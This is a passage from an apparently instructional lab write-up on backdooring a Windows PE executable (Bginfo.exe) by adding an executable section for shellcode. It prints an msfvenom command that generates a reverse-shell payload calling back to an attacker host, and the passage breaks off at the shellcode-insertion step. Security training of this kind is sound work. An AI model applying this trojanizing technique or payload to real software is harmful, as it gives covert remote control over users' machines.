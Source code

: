 # Table of Contents  

- [Backdooring PE Files with Shellcode](#backdooring-pe-files-with-shellcode)
- [Generate Shellcode](#generate-shellcode)
- [New PE Code Section](#new-pe-code-section)
- [Inserting Shellcode](#inserting-shellcode)
- [Testing the Shellcode](#testing-the-shellcode)
- [Redirecting Code Execution Flow](#redirecting-code-execution-flow)
- [Overwriting 5 byte Instruction](#overwriting-5-byte-instruction)
- [Patching Shellcode](#patching-shellcode)
  * [Patching WaitForSingleObject](#patching-waitforsingleobject)
  * [Restoring Stack Frame & Jumping Back](#restoring-stack-frame---jumping-back)
- [Backdoor Demo](#backdoor-demo)

# Backdooring PE Files with Shellcode
The purpose of this lab is to learn the Portable Executable (PE) backdooring technique by adding a new readable/writable/executable code section with our malicious shellcode to any portable executable file.

<ul>
  <li>High level process of this technique:</li>
  <ul>
    <li>Add a new RWX PE section, big enough to hold our shellcode, to any .exe file</li>
    <li>Generate shellcode</li>
    <li>Add shellcode to the newly created PE section</li>
    <li>Redirect execution flow of the .exe file being backdoored to the shellcode</li>
    <li>Redirect execution flow back to the legitimate .exe instructions</li>
  </ul>
</ul>

# Generate Shellcode
First of, let's generate the shellcode so we know how many bytes of space we will need in the new PE section:

```msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 | hexdump -C```

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/fb73271e-7bcc-4e0f-bf7b-a0dab96a4d04)

Note that the shellcode size is 324 bytes - the new PE section will have to be at least that big.

# New PE Code Section
I randomly chose Bginfo.exe from sysinternals as a binary to be backdoored. Let's add a new PE section called ```.code1``` that will contain our shellcode - note the size is 200h bytes, so plenty for our shellcode which was only 324 bytes:

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/cbd3afd7-743d-4fb5-8229-f9e1e603967a)

Note the Raw Address of the new section which is CD200 - this is where we will place the shellcode inside the file in later steps.

Let's make the new PE section writable/executable and mark it as ```contains code``` using CFF Explorer:

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/716391fe-41a2-4726-8d45-cda36285d1f8)

# Inserting Shellcode
Let's copy the shellcode over to the new code section, starting at 0xCD200 into the file:

```